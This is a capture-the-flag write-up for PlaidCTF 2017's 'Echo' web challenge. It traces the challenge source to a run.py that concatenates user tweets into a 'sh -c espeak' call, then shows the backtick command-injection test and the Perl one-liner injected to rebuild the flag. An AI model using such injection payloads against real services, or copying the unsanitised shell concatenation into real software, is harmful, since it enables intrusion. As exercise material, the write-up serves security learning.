 ```yaml
---
title: "PlaidCTF 2017 - Echo (web 200) Writeup"
slug: "plaidctf-2017-echo-web-200-writeup"
date: "2017-04-23 18:31:40.265798"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


This challenge presents a webpage with the text "Tweets are 140 characters only!" and input boxes for four tweets. Submitting tweets gives you a page with wav files, one per tweet that contains a text to speech version of the tweet.

The source code for the web front-end was provided. Examining it, you see that the tweets are written to a file:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=85}
     with open(my_path + "input" ,"w") as f:
         f.write('\n'.join(tweets))
```

Also, a flag is expanded and written to a file. This creates a large file (65000b per character of the flag) that needs to be acquired completely to get the flag.


```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=25}
def process_flag (outfile):
    with open(outfile,'w') as f:
        for x in flag:
            c = 0
            towrite = ''
            for i in range(65000 - 1):
                k = random.randint(0,127)
                c = c ^ k
                towrite += chr(k)

            f.write(towrite + chr(c ^ ord(x)))
    return
```

Both of these files are passed to a docker container:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=10}
docker_cmd = "docker run -m=100M --cpu-period=100000 --cpu-quota=40000 --network=none -v {path}:/share lumjjb/echo_container:latest python run.py"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=94}
   subprocess.call(docker_cmd.format(path=my_path).split())
```

Finally, the dockerized process must generate the wav files, because they're then converted back in our python code:

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=11}
convert_cmd = "ffmpeg -i {in_path} -codec:a libmp3lame -qscale:a 2 {out_path}"
```

```python {title="echo_57f0dd57961caae2fd8b3c080f0e125b.py",linenos=table,linenostart=43}
    for i in range(n):
        st = os.stat(path + str(i+1) + ".wav")
        if st.st_size < 5242880:
            subprocess.call (convert_cmd.format(in_path=path + str(i+1) + ".wav",
                                         out_path=target_path + str(i+1) + ".wav").split())
```

So, first step is to get the run.py that is executed in docker. I chose to extract it from the image without actually creating a container. I'm not very well-versed in Docker, so there may be an easier way to do this:

```bash
docker pull lumjjb/echo_container
docker save lumjjb/echo_container > echo.tar
tar xvf echo.tar
for l in */layer.tar ; do echo $l ; tar tvf $l ; done | less
tar xvf 8f*/layer.tar run.py
```

That gives us:

```python {title="run.py",linenos=table}
import sys
from subprocess import call

import signal
import os
def handler(signum, frame):
    os._exit(-1)

signal.signal(signal.SIGALRM, handler)
signal.alarm(30)


INPUT_FILE="/share/input"
OUTPUT_PATH="/share/out/"

def just_saying (fname):
    with open(fname) as f:
        lines = f.readlines()
        i=0
        for l in lines:
            i += 1

            if i == 5:
                break

            l = l.strip()

            # Do TTS into mp3 file into output path
            call(["sh","-c",
                "espeak " + " -w " + OUTPUT_PATH + str(i) + ".wav \"" + l + "\""])
```

A quick glance at that shows that it's vulnerable to shell injection in the call to espeak. Submitting a tweet with of `` `pwd` `` (using backticks) returns an audio of "slash", confirming.

Since the audio is converted by ffmpeg, we can't just cat the flag file into the output wav files. Instead, I chose to reconstruct the flag within the docker image. After confirming that the docker environment had Perl available, I was off to do some golfing, eventually working up to:

```
perl -e 'local$/;$a=<>;$f[$_/65000]^=ord(substr($a,$_,1))for(0..length($a)-1);print join"-",@f' share/flag
```

This one-liner reconstructs the flag and prints the decimal ASCII values of each character. Manually transcribed from the audio, it gives:

```
80-67-84-70-123-76-49-53-115-116-51-110-95-84-48-95-95-114-101-101-101-95-114-101-101-101-101-101-101-95-114-101-101-101-95-108-97-125
```

which decodes to:

```
PCTF{L15st3n_T0__reee_reeeeee_reee_la}
```
